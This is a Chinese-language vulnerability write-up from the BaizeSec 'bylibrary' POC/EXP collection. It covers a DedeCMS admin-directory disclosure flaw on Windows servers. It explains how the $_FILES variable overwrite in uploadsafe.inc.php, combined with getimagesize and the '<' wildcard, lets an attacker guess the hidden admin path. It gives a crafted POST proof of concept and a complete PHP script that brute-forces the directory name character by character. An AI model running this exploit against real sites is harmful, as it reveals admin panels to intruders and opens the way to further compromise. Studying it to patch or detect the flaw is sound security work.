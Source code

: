 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.bylibrary.cn](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%E5%90%8E%E5%8F%B0%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/)

> 白阁文库是白泽 Sec 团队维护的一个漏洞 POC 和 EXP 披露以及漏洞复现的开源项目，欢迎各位白帽子访问白阁文库并提出宝贵建议。

[](https://github.com/BaizeSec/bylibrary/blob/main/docs/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%E5%90%8E%E5%8F%B0%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.md "编辑此页")

### 利用限制 [¶](#_1 "Permanent link")

*   仅针对 windows 系统

### 进入正题 [¶](#_2 "Permanent link")

首先看核心文件 common.inc.php 大概 148 行左右

```
if($_FILES)
{
    require_once(DEDEINC.'/uploadsafe.inc.php');
}
```

uploadsafe.inc.php

```
if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
{
    exit('Request var not allow for uploadsafe!');
}
$$_key = $_FILES[$_key]['tmp_name']; //获取temp_name 
${$_key.'_name'} = $_FILES[$_key]['name'];
${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
if(empty(${$_key.'_size'}))
{
    ${$_key.'_size'} = @filesize($$_key);
}
$imtypes = array
(
    "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
    "image/xpng", "image/wbmp", "image/bmp"
);
if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
{
    $image_dd = @getimagesize($$_key); 
    //问题就在这里，获取文件的size，获取不到说明不是图片或者图片不存在，不存就exit upload.... ,利用这个逻辑猜目录的前提是目录内有图片格式的文件。
    if (!is_array($image_dd))
    {
        exit('Upload filetype not allow !');
    }
}
......
```

注意`$$_key`这一句，变量`$key`取自于`$_FILE`，由于`$_FILE`可控自然`$key`也可控, 此处理论上是可以覆盖任意变量，但是前面有个正则判断不能出现`cfg_|GLOBALS`。(但是应该还可以覆盖其他变量此处感觉还可以深挖)

本人出发点是找个可以利用`<<`通配符猜解后台目录，所以只要`$$_key`参数可控就可以达到目的。

修正一处笔误。 ~但在这之前有个`if(!defined('DEDEADMIN'))`的判断, 这个很好绕过设置`tmp_name为0或者1.jpg含.` 就可以绕过。~

```
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {   
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    这个判断只需要设置${$_key.'_name'} 的值为0或者1.jpg 含点“ . ” 既可以绕过 如：_FILES[b4dboy][name]=1.jpg
```

最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制 type 参数了。

当目录文件存在的时候 返回正常页面。当不存在的时候返回：Upload filetype not allow !

### 举个例子 [¶](#_3 "Permanent link")

文字不好表达，便于理解。

```
<?php
// ./dedecms/favicon.ico
if(@getimagesize($_GET['poc'])){
    echo 1;
}else {
    echo 0;
}
?>
get:
http://localhost/test.php?poc=./d</favicon.ico
返回：1

http://localhost/test.php?poc=./a</favicon.ico
返回：0

http://localhost/test.php?poc=./de</favicon.ico
返回：1

http://localhost/test.php?poc=./ded</favicon.ico
返回：1

........
```

### 构造 poc[¶](#poc "Permanent link")

```
http://localhost/dedecms/tags.php

post:

dopost=save&_FILES[b4dboy][tmp_name]=./de</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif
```

Common.inc.php 是被全局包含的文件，只要文件 php 文件包含了 Common.inc.php 都可以进行测试，以 tags.php 文件为例

当目录存在点时候： 图 1

[![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%E5%90%8E%E5%8F%B0%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/20180123000649-4080b60c-ff8e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180123000649-4080b60c-ff8e-1.png) 当目录不存在点时候： 图 2 [![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%E5%90%8E%E5%8F%B0%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/20180123000533-133714d4-ff8e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180123000533-133714d4-ff8e-1.png)

### EXP：[¶](#exp "Permanent link")

```
<?php
$domain='http://localhost/dedecms/';
$url=$domain.'/index.php';
function post($url, $data, $cookie = '') {
    $options = array(
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_HEADER => true,
        CURLOPT_POST => true,
        CURLOPT_SSL_VERIFYHOST => false,
        CURLOPT_SSL_VERIFYHOST => false,
        CURLOPT_COOKIE => $cookie,
        CURLOPT_POSTFIELDS => $data,
    );
    $ch = curl_init($url);
    curl_setopt_array($ch, $options);
    $result = curl_exec($ch);
    curl_close($ch);
    return $result;
}
$testlen=25;
$str=range('a','z');
$number=range(0,9,1);
$dic = array_merge($str, $number);
$n=true;
$nn=true;
$path='';
while($n){
    foreach($dic as $v){
        foreach($dic as $vv){
            #echo $v.$vv .'----';
            $post_data="dopost=save&_FILES[b4dboy][tmp_name]=./$v$vv</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif";
            $result=post($url,$post_data);
            if(strpos($result,'Upload filetype not allow !') === false){
                $path=$v.$vv;$n=false;break 2;
            }
        }
    }
}
while($nn){
    foreach($dic as $vvv){
        $post_data="dopost=save&_FILES[b4dboy][tmp_name]=./$path$vvv</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif";
        $result=post($url,$post_data);
        if(strpos($result,'Upload filetype not allow !') === false){
            $path.=$vvv;
            echo $path . PHP_EOL;
            $giturl=$domain.'/'.$path.'/images/admin_top_logo.gif';
            if(@file_get_contents($giturl)){
                echo $domain.'/'.$path.'/';
                $nn=false;break 2;
            }
        }
    }
}
?>
```

[![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%E5%90%8E%E5%8F%B0%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/20180123000746-62cc9f96-ff8e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180123000746-62cc9f96-ff8e-1.png)

### 感谢 [¶](#_4 "Permanent link")

感谢给我提供这个思路的朋友

##### 参考文章 [¶](#_5 "Permanent link")

* * *

最后更新: 2021-03-24